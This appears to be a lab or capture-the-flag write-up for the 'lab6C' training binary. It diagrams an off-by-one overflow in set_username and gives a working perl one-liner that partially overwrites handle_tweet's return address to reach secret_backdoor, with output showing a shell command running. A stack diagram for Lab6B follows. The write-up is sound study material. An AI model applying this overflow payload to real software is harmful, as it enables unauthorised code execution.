 

```bash
main
 |
 v
 [esp] = [0x971 + 0x168f - 0x1580] = [0xa80]
  |
  +-->puts("--------");
  |
  +-->handle_tweet();
       |
       +-->memset(esp_h_t + 0xa4, 0x0, 0x28);
       |
       +-->set_username(esp_h_t + 0x18);
       |    |
       |    +-->memset(esp_s_u + 0x1c, 0x0, 0x80);
       |    |
       |    +-->fgets(esp_s_u + 0x1c, 0x80, stdin);
       |    |
       |    +-->copy 0x28 + 1 bytes to esp_h_t + 0xa4 (vuln!)
       |
       +-->set_tweet(esp_h_t + 0x18);
       |    |
       |    +-->memset(esp_s_t + 0x10, 0x0, 0x400);
       |    |
       |    +-->fgets(esp_s_t + 0x10, 0x400, stdin);
       |    |
       |    +-->strncpy(esp_h_t + 0x18, esp_s_t + 0x10, esp_h_t + 0xcc);
       |
       +-->puts(">: Tweet send!");
```
We can use `set_username` to overwrite `esp_h_t + 0xcc` to larger number, so we can load more things into memory by `set_tweet`.  
By gdb, we can find that `secret_backdoor` is allways on the offset `72b`, so we don't need to leak any infomation, just partial overwrite the ret address of `handle_tweet`.   
```bash
$ ( perl -e 'print "A" x 40 . "\xc6\x0a"' ; perl -e 'print "A" x 196 . "\x2b\xd7\x0a"'; echo "whoami";  ) | ./lab6C
--------------------------------------------
|   ~Welcome to l33t-tw33ts ~    v.0.13.37 |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÆ>: Tweet @Unix-Dude
>>: >: Tweet sent!
lab6B
Segmentation fault (core dumped)
```

> **Lab6B**

```bash
+===============+
|______ret______|
|____old_ebp____|<- ebp
|______ebx______|<- esp + 0xe4
|               |<- ebp - 0x8 
|               |<- ebp - 0xc  (attempts)
|               |<- ebp - 0x10 (result)
\               \
/               /
|               |<- for ret
|               |
|               |<- for ebx
|               |
|               |<- for attempts
```
